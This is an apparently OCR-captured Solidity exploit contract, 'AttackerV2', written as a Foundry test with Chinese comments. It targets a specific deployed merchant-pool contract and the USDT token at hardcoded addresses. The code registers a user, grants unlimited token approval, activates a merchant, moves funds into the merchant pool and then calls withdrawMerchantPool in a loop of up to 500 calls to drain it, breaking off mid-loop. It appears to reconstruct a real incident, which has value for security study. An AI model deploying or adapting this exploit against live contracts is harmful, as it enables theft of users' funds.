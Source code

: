```sol

interface IERC20 {
    function balanceOf(address account) external view returns (uint256);
    function transfer(address to, uint256 amount) external returns (bool);
    function transferFrom(address sender, address recipient, uint256 amount) external returns (bool);
    function approve(address spender, uint256 amount) external returns (bool);
}

interface IXTRADESPRO {
    function withdrawMerchantPool() external;
    function register(address referrer, address merchant) external ;
    function activateMerchant(string memory country) external;
    function transferMerchantPool() external;
}

contract AttackerV2 is Test {
    // 受害者合约地址
    address private constant VICTIM_CONTRACT = 0xB9D195022da410970676DC31E4aBBc19063DD158;
    address private constant USDT_TOKEN = 0x55d398326f99059fF775485246999027B3197955;
    address public ATTACKER_EOA;
    
    constructor(address _attackerEOA) {
        ATTACKER_EOA = _attackerEOA;
    }
    
    // 接收ETH函数
    receive() external payable {}
    
    // 攻击函数 - 直接执行攻击逻辑
    function attack() public {
        require(msg.sender == ATTACKER_EOA, "Only attacker EOA can call this function");
        
        // 直接执行攻击逻辑
        _executeAttack();
    }
    
    // 实际攻击执行函数
    function _executeAttack() internal {
        // 确保合约拥有足够的USDT余额
        uint256 contractBalance = IERC20(USDT_TOKEN).balanceOf(address(this));
        console.log(unicode"合约USDT余额:", contractBalance / 1e18);
        
        // 尝试注册和激活商户 
        // 注册用户 - 使用从交易数据中获取的地址
        IXTRADESPRO(VICTIM_CONTRACT).register(address(0x85aAAff4Db7B629b1e868231B411E53976a193eF), address(0xeA9471470d3389F1EFe9C2142a172E3907DC612F));
        
        // 首先授权受害者合约使用足够的USDT来支付注册费和商户费
        IERC20(USDT_TOKEN).approve(VICTIM_CONTRACT, type(uint256).max);
        console.log(unicode"激活使用的Money:",type(uint256).max / 1e18);
        // 激活商户
        IXTRADESPRO(VICTIM_CONTRACT).activateMerchant("hiroki");

        // 调用transferMerchantPool分配资金到商户池
        IXTRADESPRO(VICTIM_CONTRACT).transferMerchantPool();

        // 循环调用受害者合约的withdrawMerchantPool函数多次
        // 根据原始攻击合约，实际调用了100次
        for (uint256 i = 0; i < 500; i++) {
            try IXTRADESPRO(VICTIM_CONTRACT).withdrawMerchantPool() {
                continue;
            } catch {
```